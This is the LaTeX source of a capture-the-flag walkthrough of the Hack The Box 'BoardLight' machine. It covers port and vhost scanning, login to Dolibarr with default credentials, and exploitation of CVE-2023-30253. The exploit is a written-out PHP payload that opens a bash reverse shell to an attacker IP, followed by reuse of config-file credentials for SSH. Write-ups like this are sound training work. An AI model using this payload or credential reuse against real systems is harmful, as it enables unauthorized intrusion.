% Preamble
\documentclass[12pt, letterpaper]{article}
\usepackage{graphicx}
\graphicspath{{img}}

\title{Hack The Box - BoardLight walkthrough}
\author{0bKP}
\date{01 June 2024}

\begin{document}

\maketitle
A breach rapport of Hack The Box's BoardLight machine.

\tableofcontents

\section{Introduction}
This write-up explores the successful penetration of an easy-level Hack The Box (HTB) 
machine, focusing on a variety of techniques including web server vulnerabilities,
exploitation of the Dolibarr application, virtual host enumeration, and the deployment 
of a reverse shell.

The initial reconnaissance phase involved misconfigured virtual hosts, which provided 
opportunities for lateral movement within the network. Notably, the default credentials 
to one of the virtual hosts were left unchanged, facilitating unauthorized access for the attacker.

Further enumeration revealed potential attack vectors, leading to the discovery of vulnerable 
services and applications. Exploiting a known vulnerability in the Dolibarr application, the 
attacker gained unauthorized access to the system.

By deploying a reverse shell payload, the attacker established persistent access to the 
system, enabling continued exploration and data exfiltration. Through meticulous analysis 
and exploitation of various weaknesses, the attacker achieved their objectives within the 
HTB environment.

This write-up serves as a comprehensive overview of the methodologies employed to compromise 
the HTB machine, offering insights into web server vulnerabilities, application exploitation, 
enumeration techniques, and the execution of reverse shells.

\section{Reconnaissance}

The first step involved scanning for open ports using Nmap. The results
are as follows: 
\\\\
\noindent # Nmap 7.94SVN scan initiated Sat Jun  1 21:31:38 2024 as: nmap -sC -sV -vv -oN scan.nmap 10.10.11.11 \\
Nmap scan report for 10.10.11.11 \\
Host is up, received syn-ack (0.052s latency). \\
Scanned at 2024-06-01 21:31:39 CEST for 94s \\
Not shown: 998 closed tcp ports (conn-refused) \\
PORT   STATE SERVICE REASON  VERSION \\
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0) \\
 \\
80/tcp open  http    syn-ack Apache httpd 2.4.41 \\
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel \\
  

There are two ports open on the machine: 22 with an SSH and 80 with HTTP running.
Moreover, the scan showed that the hostname is board.htb. It was added to the
\textit{/etc/hosts} file.

The web page doesn't seem to have anything worth of further investigation. \\\\


\includegraphics[width=\textwidth]{ boardlight-webpage.png } \\\\

The results of gobuster directory enumeration didn't reveal any interesting files.
Upon further reconnaissance the virtual host \textit{crm.board.htb} was found.
The command run:

\begin{verbatim}
gobuster -dir ~/wl/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
--url board.htb --append-domain
\end{verbatim}

After adding a new entry to the \textit{/etc/hosts} file, the web page was examined. 
It was a simple login page powered by Dolibarr 17.0.0


\includegraphics[width=\textwidth]{ login-page.png } \\\\

The default Dolibarr credentials \textbf{admin:admin} worked. Now, it was possible
to access the dashboard from the admin account.

\section{Enumeration}
After a while of trying different functionalities, one in particular stood out. The web server facilitated
creating new web pages from a template. It allowed editing the HTML code, potentially
creating a serious attack vector.

It allowed the malicious user to add PHP code onto the web page. This vulnerability in
Dolibarr is known as \textbf{CVE-2023-30253}. \\


\includegraphics[width=\textwidth]{dolibarr-create-page.png} \\\\

Firsly, the new webpage under the localhost was created with the subdomain of \texit{revshell}
as shown on the image above. Next, it was possible to add a template and edit its
source code. The following payload was added:

\begin{verbatim}
<?pHp system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.123/1234 0>&1'"); ?>
\end{verbatim}

\noindent It looked as follows: \\


\includegraphics[width=\textwidth]{ payload.png } \\\\

After saving the project, the server executed the code granting us the reverse shell. \\


\includegraphics[width=\textwidth]{ reverse-shell.png } \\\\

\section{Privilege escalation}
We were in as www-data. After a while of skimming through the files, the configuration file of
Dolibarr was found, and it contained some credentials. \\


\includegraphics[width=\textwidth]{ dolibarr-conf-file.png } \\\\

At first, it was not known what these credentials (\textbf{dolibarrowner:serverfun2\$2023!!})
were for. After sometime of trying to log into different services, i.e. sql local database,
SSH, the user \textit{Larissa} was found in \textit{/etc/passwd} file. This password
worked for the users SSH account. \\


\includegraphics[width=\textwidth]{ larissa-ssh-sess.png } \\\\

This way the user was owned.

\section{Mitigation}

\section{Dolibarr}

\end{document}
